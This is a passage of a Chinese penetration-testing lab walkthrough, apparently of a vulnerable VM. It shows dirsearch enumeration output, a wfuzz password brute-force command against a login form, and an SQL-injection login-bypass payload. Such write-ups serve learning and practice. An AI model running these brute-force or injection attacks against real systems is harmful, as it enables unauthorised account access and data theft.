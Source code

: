 并没有找到明显的可以被用来获取 SHELL 的漏洞。

接下来试试目录猜解(字典可以使用你自己的，或者 Kali 2.0 自带的 `/usr/share/wordlists/dirb` 目录下的字典)

```bash
_|. _ _  _  _  _ _|_    v0.3.9                                                                           
(_||| _) (/_(_|| (_| )                                                                                    
                                                                                                          
Extensions: php, jsp, asp | HTTP method: get | Threads: 100 | Wordlist size: 350583

Error Log: /home/kali/githubtools/dirsearch/logs/errors-20-08-02_20-02-43.log

Target: 192.168.31.130                                                                                    
                                                                                                          
[20:02:43] Starting: 
[20:02:43] 200 -  667B  - /index.php 
[20:02:44] 403 -  290B  - /cgi-bin/   
[20:02:44] 200 -   18KB - /icons/      
[20:02:55] 200 -    7KB - /manual/              
[20:03:03] 403 -  288B  - /usage/            
[20:03:29] 403 -  288B  - /error/                                                           
                                                                                         
Task Completed
```

也没有什么收货。

浏览器访问 [http://192.168.31.130](http://192.168.31.130) 看看：

![Untitled 2.png](https://i.loli.net/2020/08/07/vnS9AirBZjOl2Lq.png)

查看源码：

![Untitled 3.png](https://i.loli.net/2020/08/07/m6yT4DaIkPUASpF.png)

是个登录界面，没有暴力破解的防护手段，试试暴力破解。

*可惜没法看到使用的是什么框架，否则我们可以去查询默认的用户名。*

不过这里既然提示 Administrator 登录，那先试试用户名  Administrator 和 Admin：

因为笔者目前 Kali 上自带的 burpsuite 为试用版，还没破解，Introder 模块只能使用线程 1，所以笔者这里使用 Wfuzz 进行爆破：

```bash
wfuzz -w /usr/share/wordlists/rockyou.txt -d "uname=Admin&psw=FUZZ&btnLogin=Login"  -c --hh=18167 http://192.168.31.130/index.php
```

但爆破都没有成功。

那是否可能存在 sql 注入呢？尝试万能密码：

```bash
username: administrator
password: ' OR 'a'='a
```
